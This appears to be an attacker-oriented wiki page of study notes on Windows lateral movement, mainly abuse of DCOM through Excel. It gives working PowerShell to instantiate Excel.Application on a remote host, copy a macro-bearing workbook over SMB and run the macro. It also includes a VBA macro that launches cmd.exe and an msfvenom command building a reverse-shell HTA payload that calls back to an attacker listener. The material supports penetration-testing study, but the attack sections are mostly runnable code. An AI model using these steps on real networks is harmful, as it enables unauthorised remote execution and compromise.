 # Windows Network Lateral Movement
The articles [[Networks/Network-Theory/Network-Protocols/Network-Protocols]], [[Networks/Network-Protocols]] and [[Windows-Networking]] will provide theory background information, while [[Windows-Networking-Commands]], [[Windows-CLI-cmd]] ,[[SMB-Recon-Cheatsheet]] and [[RPCClient-Cheatsheet]] articles will provide command cheatsheet referal.

The are many ways to navigate the network and move laterally through it, the most stealthier from an attacker perspective is to use live off the land and sue common Administrative Tools or by emulating regular user behaviour, but also SysAdmin behaviour - why would a local admin connect from machine that has no reason to connect to another.

This article will require some knowledge of **Integrity Tokens** [[Bypassing-Windows-User-Account-Control]] and [[Windows-User-Account-Control]] as the restrictions imposed by this system, some methods may fail due UAC enforcement. Also Domain and Local Administrators are different objects, but Domain Admins with Local Admin privileges will not be subject to the same checks as a Local Admin. For remote restrictions made by UAC documentation see [UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 

## Contents
[[AD-Lateral-Movement-Spawning-Remote-Processes]]

## Exploitation Hashes and Ticket passing for Lateral Movement

See indiviual articles:
[[Pass-The-Hash]]
[[Overpass-The-Hash]]
[[Pass-The-Ticket]]


## Distributed Component Object Model(DCOM)
[The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other](https://en.wikipedia.org/wiki/Component_Object_Model). Similar to [[Object-Oriented-Programming]], but for OS objects and thier interactions. [DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) being *Distributed* object across a Windows Network. They ancient technologies that are present in the early days of Windows. One of many [[Networks/Network-Protocols]] used in AD it specifically interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API. [Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

There are various Microsoft Office DCOM objects that allow for lateral movement.
```powershell
# Create an instance, listing all avaliable methods 
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$IP"))
$com | Get-Member
```
With the `Run` method we can run VBA macro remotely.
```vba
Sub mymacro()
    Shell ("cmd.exe")
End Sub
```
Using legacy .xls formatting the macro is write inside the Office \*-application and then copied to a remote filesystem through SMB using .NET `Copy` method of `System.IO.File` class.
```powershell
$LocalPath = "C:\Users\Administrator\mytrojan.xls"
$RemotePath = "\\$IP\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```
To then open it remotely
```powershell
$Path = "\\$IP\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```

The base64 encode [[MSFvenom-Payloads]] command to create HTA attack is:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f hta-psh -o evil.hta
```
The LHOST can be the DC that can called back to a listener.

[[Impacket-Cheatsheet]] with dccomexec.py

## Pass the ccache
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)



## References
[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
[Metasploit PsExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
[Alternate PtH methods](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/0)
[Graeber BH Whitepaper](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
[DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) 
[COM](https://en.wikipedia.org/wiki/Component_Object_Model)
[MS DCOM Documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN) 
[Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)
[UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 